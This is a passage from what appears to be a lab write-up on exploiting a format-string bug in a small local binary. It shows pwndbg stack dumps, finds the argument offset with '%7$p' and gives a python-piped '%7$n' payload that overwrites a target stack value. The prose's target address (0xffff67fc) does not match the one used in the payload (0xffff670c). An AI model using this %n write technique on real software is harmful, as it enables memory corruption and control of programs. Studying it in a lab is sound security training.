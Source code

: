 ```bash
08:0020│     0xffff66d0 ◂— '-%6$p-%7$p\n'
09:0024│     0xffff66d4 ◂— 'p-%7$p\n'
0a:0028│     0xffff66d8 ◂— 0xa7024 /* '$p\n' */
0b:002c│     0xffff66dc —▸ 0xf7fbb4e8 (__exit_funcs_lock) ◂— 0x0
0c:0030│     0xffff66e0 —▸ 0xf7fb8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
0d:0034│     0xffff66e4 —▸ 0xf7fe22f0 ◂— endbr32
0e:0038│     0xffff66e8 ◂— 0x0
0f:003c│     0xffff66ec —▸ 0xf7e01362 (__internal_atexit+66) ◂— add    esp, 0x10
10:0040│     0xffff66f0 —▸ 0xf7fb83fc (__exit_funcs) —▸ 0xf7fb9180 (initial) ◂— 0x0
11:0044│     0xffff66f4 ◂— 0x1
12:0048│     0xffff66f8 —▸ 0x5655828c (_GLOBAL_OFFSET_TABLE_) ◂— 0x3194
13:004c│     0xffff66fc —▸ 0x56556323 (__libc_csu_init+83) ◂— add    esi, 1
14:0050│     0xffff6700 ◂— 0x1
15:0054│     0xffff6704 —▸ 0xffff67c4 —▸ 0xffff690d ◂— '/home/v1etd/lab/fmt'
16:0058│     0xffff6708 —▸ 0xffff67cc —▸ 0xffff6921 ◂— 'SHELL=/bin/bash'
17:005c│     0xffff670c ◂— 0xdeadc0de # target
pwndbg> c
Continuing.
0x534-0x3d-0x70243525
Nope...

$ ./fmt
AAAA%7$p
AAAA0x41414141
Nope...
# now we find out the offset = 7, where we completely control
```

we can use `%<num>$n` to specify the address to write to. What would happens if `%<num>$n` points to the start of our string? Well, it will use the address specified in the beggining of our strings to write data to.

your target at `0xffff67fc` , but how do we specify this addr? We need replace our input by `0xffff67fc`

```bash
pwndbg> b *main+73
pwndbg> r < <(python -c "print('\x0c\x67\xff\xff'+'%7\$n')")
pwndbg> tel 24
00:0000│ esp 0xffff66b0 —▸ 0xffff66cc —▸ 0xffff670c ◂— 0xdeadc0de
01:0004│     0xffff66b4 ◂— 0x40 /* '@' */
02:0008│     0xffff66b8 —▸ 0xf7fb8580 (_IO_2_1_stdin_) ◂— 0xfbad2088
03:000c│     0xffff66bc —▸ 0x56556248 (main+27) ◂— add    ebx, 0x2044
04:0010│     0xffff66c0 ◂— 0x1c2fb9
05:0014│     0xffff66c4 ◂— 0x534
06:0018│     0xffff66c8 ◂— 0x3d /* '=' */
07:001c│ eax 0xffff66cc —▸ 0xffff670c ◂— 0xdeadc0de # %7$p
08:0020│     0xffff66d0 ◂— '%7$n\n'
09:0024│     0xffff66d4 —▸ 0xf7fb000a ◂— 0x2f40e5c
0a:0028│     0xffff66d8 —▸ 0xf7ffc7e0 (_rtld_global_ro) ◂— 0x0
0b:002c│     0xffff66dc —▸ 0xf7fbb4e8 (__exit_funcs_lock) ◂— 0x0
0c:0030│     0xffff66e0 —▸ 0xf7fb8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
0d:0034│     0xffff66e4 —▸ 0xf7fe22f0 ◂— endbr32
0e:0038│     0xffff66e8 ◂— 0x0
0f:003c│     0xffff66ec —▸ 0xf7e01362 (__internal_atexit+66) ◂— add    esp, 0x10
10:0040│     0xffff66f0 —▸ 0xf7fb83fc (__exit_funcs) —▸ 0xf7fb9180 (initial) ◂— 0x0
11:0044│     0xffff66f4 ◂— 0x1
12:0048│     0xffff66f8 —▸ 0x5655828c (_GLOBAL_OFFSET_TABLE_) ◂— 0x3194
13:004c│     0xffff66fc —▸ 0x56556323 (__libc_csu_init+83) ◂— add    esi, 1
14:0050│     0xffff6700 ◂— 0x1
15:0054│     0xffff6704 —▸ 0xffff67c4 —▸ 0xffff690d ◂— '/home/v1etd/lab/fmt'
16:0058│     0xffff6708 —▸ 0xffff67cc —▸ 0xffff6921 ◂— 'SHELL=/bin/bash'
17:005c│     0xffff670c ◂— 0xdeadc0de # target
pwndbg> n
```